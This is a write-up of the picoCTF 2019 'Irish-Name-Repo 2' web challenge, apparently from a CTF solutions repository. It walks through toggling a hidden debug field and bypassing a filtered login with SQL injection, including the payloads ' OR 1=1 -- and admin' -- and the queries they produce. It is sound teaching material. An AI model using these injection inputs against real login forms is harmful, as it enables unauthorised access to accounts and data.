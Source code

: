 # Irish-Name-Repo 2

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 350
Tags: picoCTF 2019, Web Exploitation
Author: XINGYANG PAN

Description:
There is a website running at https://jupiter.challenges.picoctf.org/problem/64649/. 

Someone has bypassed the login before, and now it's being strengthened. 
Try to see if you can still login! 

http://jupiter.challenges.picoctf.org:64649

Hints:
1. The password is being filtered.
```
Challenge link: [https://play.picoctf.org/practice/challenge/59](https://play.picoctf.org/practice/challenge/59)

## Solution

Browse to the web site and click on the menu-button in the upper left corner.  
Select `Admin Login` and you get redirected to `/login.html`.

Right-click on the background and select `View page source` in the menu (or press `CTRL + U`) to get the HTML-source.
```html
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

As in the [previous challenge](Irish-Name-Repo_1.md) there is a hidden field named `debug` with the value of `0`. (`<input type="hidden" name="debug" value="0">`)  

Lets change this value to `1` with DevTools.  
Press `F12` to open DevTools, then navigate to the form in the `Elements` tab.  
Right-click on the value to change it.

Let's first try to login with username `admin` and password `' OR 1=1 --` as before. This returns
```
username: admin
password: ' OR 1=1 --
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR 1=1 --'

SQLi detected.
```
As stated in the hint the password field is filtered.

Now lets try to login with username `admin' --` and password `whatever` instead. This returns
```
username: admin' --
password: whatever
SQL query: SELECT * FROM users WHERE name='admin' --' AND password='whatever'
Logged in!

Your flag is: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - SQL injection](https://en.wikipedia.org/wiki/SQL_injection)

